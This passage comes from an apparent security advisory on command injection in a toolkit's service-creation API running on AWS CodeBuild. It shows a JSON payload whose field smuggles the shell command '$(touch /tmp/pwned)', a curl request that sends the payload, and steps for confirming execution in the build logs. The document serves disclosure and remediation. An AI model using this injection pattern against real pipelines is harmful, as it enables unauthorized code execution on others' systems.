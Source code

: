                 "basePackage": "com.example.malicious",
                "modelPackage": "com.example.malicious.model",
                "apiPackage": "com.example.malicious.api",
                "invokerPackage": "com.example.malicious.configuration",
                "groupId": "com.example.malicious",
                "artifactId": "malicious-service",
                "exploit": "$(touch /tmp/pwned)"  // Malicious command injection attempt
              }
            }
          },
          "scm": {
            "github": {
              "repo": "https://github.com/user/repo", // Replace with a dummy repo URL
              "secretKey": "my-key",
              "email": "none@none.com",
              "name": "Robot"
            }
          },
          "iac": {
            "cloudformation": {
              "vpc": "vpc-xxxxxxxx", // Replace with a valid VPC ID
              "subnets": "subnet-xxxxxxx,subnet-xxxxxxx" // Replace with valid subnet IDs
            }
          }
        }
        ```
    3. **Invoke the API Endpoint:**
        - Use `curl` or `aws apigateway invoke-endpoint` to send a POST request to the API Gateway endpoint with the malicious `service.json` payload.
        ```bash
        curl -X POST -H "Content-Type: application/json" -d @service.json <API_GATEWAY_ENDPOINT>/services
        ```
        - Replace `<API_GATEWAY_ENDPOINT>` with the actual API Gateway endpoint URL from the stack output.
    4. **Check for Command Execution in CodeBuild:**
        - Monitor the AWS CodeBuild logs for the project triggered by the API call.
        - In the CodeBuild logs, look for evidence that the injected command `touch /tmp/pwned` was executed.

---
**Note:** Both vulnerabilities describe command injection points in the Industry Toolkit that can lead to critical impact. It is highly recommended to address these vulnerabilities immediately by implementing the suggested mitigations.
